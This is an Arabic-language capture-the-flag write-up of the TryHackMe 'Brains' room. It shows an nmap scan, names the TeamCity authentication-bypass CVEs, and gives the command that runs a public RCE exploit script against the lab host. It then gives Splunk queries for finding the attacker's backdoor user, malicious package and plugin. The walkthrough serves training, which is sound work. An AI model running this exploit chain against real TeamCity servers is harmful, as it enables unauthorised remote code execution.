


TryHackMe: Brains
التحدي ده فيه جزئين كويسين وهما جزء الـoffensive و جزء الـdefender. خلونا نبدأ ونشوف سوا
جزء الـoffensive:
كالعادة هنحتاج إننا نشوف الـport والـservice الموجودة في الـtarget. هنروح على Nmap ونشوف ده:
nmap -sV -sC -p- 10.10.164.206
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.143.133
Nmap scan report for 10.10.143.133
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 20:db:de:8e:f2:10:09:16:55:59:a7:18:06:3b:66:db (RSA)
| 256 78:79:f3:1f:5e:ee:8d:65:3f:9e:42:d9:4f:60:09:63 (ECDSA)
|_ 256 5a:d0:1c:6d:c7:76:1d:5e:7a:c0:e7:bd:95:bf:fc:7d (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
50000/tcp open ibm-db2?
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 401
| TeamCity-Node-Id: MAIN_SERVER
| WWW-Authenticate: Basic realm="TeamCity"
| WWW-Authenticate: Bearer realm="TeamCity"
| Cache-Control: no-store
| Content-Type: text/plain;charset=UTF-8
| Date: Fri, 04 Oct 2024 23:37:31 GMT
| Connection: close
| Authentication required
| login manually go to "/login.html" page
...
هنلاقي 3 port مفتوحة و service عليهم:
- 22 (SSH)
- 80 (HTTP)
- 50000 (HTTP)
تعالوا نشوف port 80:

هنلاقي إن مفيش حاجة مهمة تقريبًا، مفيش غير message.
تعالوا نشوف port 50000:
هنلاقي في http://10.10.143.133:50000 موجود TeamCity Version 2023.11.3 (build 147512) وكالعادة من الحاجات المهمة إننا نشوف لو كان فيه vulnerabilities قديمة للإصدار ده علشان نستغلها إننا نعمل authentication bypass.
بعد شوية تدوير لقينا فعلاً إن فيه (CVE-2024-27198 and CVE-2024-27199) ولو قريت شوية عن الـCVE دي هتلاقي إننا ممكن يكون معانا RCE.
دلوقتي عايزك تروح تدور على exploit ليها وتعالى تاني، اعتمد على نفسك :)
خلصت؟
تعالوا نحاول نستغله: بالأمر ده:
python3 CVE-2024-27198-RCE/CVE-2024-27198-RCE.py -t http://10.10.143.133:50000
دلوقتي بقى معانا RCE على النظام ونقدر نقرا الـFlag. طبعًا مش هقولك إيه هو، شوف إنت بنفسك.
الجزء الثاني defender:
معظم تحديات TryHackMe أو الـCTF عامةً بتركز على الخطوات دي كلها بس مش بنفس الشكل، الطريقة بتختلف من نظام للتاني على حسب بس افتكر إن كلهم بنفس الفكرة وتحديات الـCTF عامةً بتبقى مش زي الواقع بالظبط، بس هي قوية فعلاً وهتعلمك حاجات كتير.
المهم هنلاقي port 8000 مفتوح لـService اسمها "Splunk" دي Tool بتساعد إن احنا نراقب ونحلل بيانات زي الـLog File وكدا. هسألك سؤال دلوقتي، جه في بالك حاجة؟؟ فكر كدا؟ المهم مطلوب مننا في الجزء الدفاعي 3 حاجات:
- إيه هو اسم الـuser اللي عمل backdoor على الـServer؟
- إيه اسم الـmalicious package اللي اتنزلت على الـServer؟
- إيه اسم plugin اللي اتنزلت على الـServer؟
1 - أول سؤال:
بالنسبة لاسم الـuser ممكن نكتب الأمر ده علشان نشوف كل الـusers اللي حصلهم Add وأكيد الـHacker ضاف نفسه أول ما اخترق النظام:
index* = "useradd"
أو ممكن نشوف في ملف إنت عارفه كويس عرفته؟؟ عارف إن جه في بالك :) مش احنا ممكن نشوف الـ /var/log/auth.log ؟؟ لو متعرفش ده إيه ف ده الملف ده بيسجل محاولات تسجيل الدخول، سواء اللي نجحت أو اللي فشلت وحاجات تانية شارحها في مقال تاني متنساش تشوفه.
2 - تاني سؤال:
إيه اسم الـmalicious package اللي اتنزلت على الـServer؟
source="/var/log/dpkg.log" "install"زي ما احنا شايفين في الصورة إننا شوفنا إيه هي الـmalicious package وهسيبك برضو إنت تدور بنفسك.
3 - تالت سؤال:
إيه اسم plugin اللي اتنزلت على الـServer؟ نفس الموضوع اللي فات بالظبط هنستخدم الـCommand ده علشان نقدر نجيب كل الـplugin اللي حصلها upload:
source="/opt/teamcity/*" "plugin" "upload"بالنسبة لملف الـopt ف ده بيكون فيه كل التطبيقات اللي مش تبع النظام نفسه وهي اختصار لـ "optional"، وبنستخدمه علشان نحمل فيه التطبيقات اللي مش جاية مع النظام نفسه، وهسيبك تدور بنفسك. زي ما احنا شايفين قدرنا نشوف النتيجة.